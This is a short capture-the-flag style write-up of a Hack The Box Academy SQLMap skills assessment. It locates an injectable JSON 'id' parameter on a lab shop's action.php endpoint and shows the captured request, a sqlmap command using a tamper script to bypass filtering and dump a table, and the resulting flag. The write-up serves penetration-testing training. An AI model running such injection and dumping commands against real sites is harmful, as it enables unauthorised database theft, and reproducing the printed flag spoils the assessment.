 ```yaml
---
sticker: lucide//database-backup
---
```

You are given access to a web application with basic protection mechanisms. Use the skills learned in this module to find the SQLi vulnerability with SQLMap and exploit it accordingly. To complete this module, find the flag and submit it here.

![](Pasted image 20250204180837.png)

Once we go into the site, we can see the following:

![](Pasted image 20250204180851.png)

Seems like a simple shoe shop, we have three interesting options we should take a look at: `Contact`, `Catalog`, `Blog`. We need to search around for some of them that injects code in the back-end server, let's take a look:

## Contact


![](Pasted image 20250204181046.png)

In the contact site, we can see a form that we can fill in order to get in contact with the administrators. Nothing is off in this page, everything sets itself to `#`, so this is not what we're looking for.

## Blog
---

![](Pasted image 20250204181231.png)

We have a search bar, but the same stuff happens as with the contact site, it gets set to `#`.

## Catalog
---

If we go to the catalog section, we can go into a `shop.html` site, if we inspect the source code for this page, we can see this interesting code:

```
<script>
    $(".add-to-cart").click(function(event) {
        event.preventDefault();

        let xhr = new XMLHttpRequest(); 
        let url = "action.php"; 
    
        xhr.open("POST", url, true); 
        xhr.setRequestHeader("Content-Type", "application/json"); 

        xhr.onreadystatechange = function () {
            if (xhr.readyState === 4 && xhr.status === 200) { 
                alert("Item added!!!")
            }
        };

        var data = JSON.stringify({ "id": 1 }); 
        xhr.send(data); 
    });
  </script>
```

The code basically acts whenever the `add-to-cart` button is clicked, the script posts a JSON object to the `action.php` endpoint.

We must capture the request with burp and use this command:

```
POST /action.php HTTP/1.1

Host: 94.237.53.230:33942

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/json

Content-Length: 8

Origin: http://94.237.53.230:33942

Connection: keep-alive

Referer: http://94.237.53.230:33942/shop.html

Priority: u=0



{"id":1}
```

```
python3 sqlmap.py -r Add-To-Cart.txt --threads 10 --tamper=between -T final_flag --dump --batch
```

We get the following:

```
Database: production
Table: final_flag
[1 entry]
+----+--------------------------+
| id | content                  |
+----+--------------------------+
| 1  | HTB{n07_50_h4rd_r16h7?!} |
+----+--------------------------+
```

Flag is `HTB{n07_50_h4rd_r16h7?!}`


![](Pasted image 20250204183428.png)
